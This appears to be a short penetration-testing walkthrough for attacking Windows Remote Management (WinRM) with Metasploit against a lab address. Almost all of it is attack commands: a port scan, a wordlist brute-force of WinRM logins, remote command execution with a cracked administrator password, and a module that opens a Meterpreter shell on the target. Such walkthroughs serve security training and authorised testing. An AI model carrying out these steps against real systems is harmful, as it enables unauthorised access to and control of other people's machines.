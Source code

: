 # WinRM: Exploitation with Metasploit

Windows Exploitation: Services

Nmap

```bash
nmap --top-ports 7000 10.0.0.173
```

msfconsole

```bash
msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 10.0.0.173
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

Checking WinRM supported authentication method using an auxiliary module.

```bash
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 10.0.0.173
exploit
```

Execute command on the target server using winrm\_cmd module.

```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS 10.0.0.173
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit
```

We have successfully executed the command "whoami" on the remote server. Now, we

will use the winrm\_exec exploit module to get the meterpreter shell.

```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.0.0.173
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

